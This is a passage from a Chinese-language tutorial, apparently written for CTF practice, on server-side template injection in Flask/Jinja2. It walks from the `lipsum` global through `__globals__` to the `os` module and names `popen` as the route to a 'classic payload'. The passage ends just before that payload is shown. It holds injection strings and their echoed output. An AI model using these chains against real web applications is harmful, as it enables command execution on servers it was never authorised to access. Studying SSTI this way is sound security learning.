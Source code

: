 | `session`              | Flask      | 会话对象，读取/篡改会话          |
| `g`                    | Flask      | 访问上下文                       |
| `current_app`          | Flask      | 应用实例，**高危**，访问应用核心 |

### Payload构造

首先要选取一个可以获取的全局对象，我们以`lipsum`、`config`、`" "`分别为例。

#### 由`lipsum`构造Payload

对于`lipsum`，当我们在注入点输入`{{lipsum}}`时可以得到回显：

```
Hi, <function generate_lorem_ipsum at 0x7f91fe6951c0>.
```

这代表我们利用的是一个全局的函数对象。那么对于函数对象就可以直接使用`__globals__`这个魔术属性获取全局上下文，我们编写`{{lipsum.__globals__}}`得到回显：

```
Hi, {'__name__': 'jinja2.utils', '__doc__': None, '__package__': 'jinja2', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f91fe676840>, '__spec__': ModuleSpec(name='jinja2.utils', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7f91fe676840>, origin='/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/utils.py'), '__file__': '/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/utils.py', '__cached__': '/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/__pycache__/utils.cpython-312.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': 
...
function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice
...
, file "/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/runtime.py", line 852>, <code object compile at 0x7f91fe6481f0, file "/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/environment.py", line 731>}, 'concat': <built-in method join of str object at 0xb3c770>, 'pass_context': <function pass_context at 0x7f91fe6947c0>, 'pass_eval_context': <function pass_eval_context at 0x7f91fe6949a0>, 'pass_environment': <function pass_environment at 0x7f91fe694a40>, '_PassArg': <enum '_PassArg'>, 'internalcode': <f
...
```

许多Web框架会隐式导入`os`模块，用于处理文件路径、环境变量等，在一般情况下如果我们能在global中发现：

```
'os': <module 'os' (frozen)>
```

就说明我们可以利用`os`模块，紧接着我们就可以调用os模块，因为这个魔术属性`__globals__`是字典，所以我们可以`{{lipsum.__globals__['os']}}`或者`{{lipsum.__globals__.__getitem__('os')}}`：

```
Hi, <module 'os' (frozen)>.
```

我们可以通过`{{lipsum.__globals__['os'].__dir__()}}`查看可用属性：

```
Hi, ['__name__', '__doc__', '
...
awnvpe', 'spawnl', 'spawnle', 'spawnlp', 'spawnlpe', 'popen', '_wrap_close', 'fdopen', '_fspath', 'PathLike'].
```

我们发现了风险函数`popen`，于是就有了经典的payload：

```jinja2
```